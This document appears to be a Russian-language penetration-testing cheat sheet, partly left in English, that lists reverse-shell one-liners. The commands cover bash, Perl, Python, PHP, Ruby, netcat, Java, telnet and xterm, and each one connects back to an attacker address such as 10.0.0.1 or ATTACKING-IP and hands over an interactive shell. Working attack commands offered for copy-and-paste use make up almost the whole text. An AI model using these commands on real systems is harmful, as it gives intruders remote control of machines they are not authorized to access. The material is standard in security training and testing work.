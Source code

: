 ```yaml
---
layout: post
categories: cheatsheets_rus
published: true
---
```

# Оглавление
{:.no_toc}

* toc
{:toc}

# Общие слова

Если тебе повезло обнаружить уязвимость выполнения команд во время теста на проникновение, довольно скоро тебе захочется интерактивный шелл.

Если не получается добавить новый аккаунт / SSH ключ / .rhosts файл, твой следующий шаг, вероятно, будет либо делать обратный шелл, либо привязывать оболочку к порту TCP. Эта страница поможет с первым.

Варианты делать обратный шелл ограничены языками сценариев, установленными в целевой системе, хотя также можете загрузить бинарник, если достаточно хорошо подготовиться.

Показанные примеры предназначены для Unix-подобных систем. Некоторые из приведенных ниже примеров также должны работать в Windows, если вы используете замену “/bin/sh -i” с “cmd.exe”.

Почти каждый из методов приведенных ниже предназначен для использования в качестве одной строки которую можно копировать/вставлять. Это довольно короткие строки, но не очень читаемые.

# Bash

Некоторые версии bash могут помочь с реверс шеллом (тестированно на Ubuntu 10.10):
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
~~~
exec /bin/bash 0&0 2>&0
~~~
# PERL

Вот короткая, не зависищая от фич версия  perl реверс шелла:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i))))
    {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

И для Windows

~~~
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~
~~~
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

# Python

Тестированно на Linux/Python 2.7:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

Этот код предполагает TCP соединение с дескриптором 3. Это работало на тест системе. Если не работает, попробуй 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Если хочешь .php файл для загрузки, посмотри более навороченные php.

# Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat редко присутствует в продакшен системах, и даже если там несколько версий netcat, некоторые из них не поддерживают опцию -e.

~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

Если у вас установлена неправильная версия netcat, Джефф Прайс указывает на то что ты всё равно можешь получить реверс шелл вот так:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

[Untested submission from anonymous reader]

# Telnet 

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
~~~
~~~
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
~~~

Remember to listen on 443 on the attacking machine also.

# xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

	xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

	Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

	xhost +targetip
